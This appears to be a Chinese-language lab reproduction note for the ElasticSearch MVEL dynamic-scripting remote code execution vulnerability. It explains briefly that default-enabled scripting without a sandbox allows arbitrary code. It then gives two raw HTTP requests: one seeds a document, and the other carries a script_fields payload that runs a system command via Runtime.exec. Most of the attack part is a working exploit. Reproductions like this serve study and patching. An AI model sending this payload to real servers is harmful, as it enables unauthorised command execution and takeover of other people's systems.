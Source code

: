 ## 漏洞原理:

> ElasticSearch有脚本执行的功能，使用的引擎为MVEL，该引擎没有做任何的防护，或者沙盒包装，所以可以直接执行任意代码。

> 由于在ElasticSearch的默认配置下，动态脚本执行功能处于打开状态，导致用户可以构造恶意的请求包，`执行任意代码。`


## 漏洞复现：

> 1. 首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```
> 2. 然后，执行任意代码：
```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```
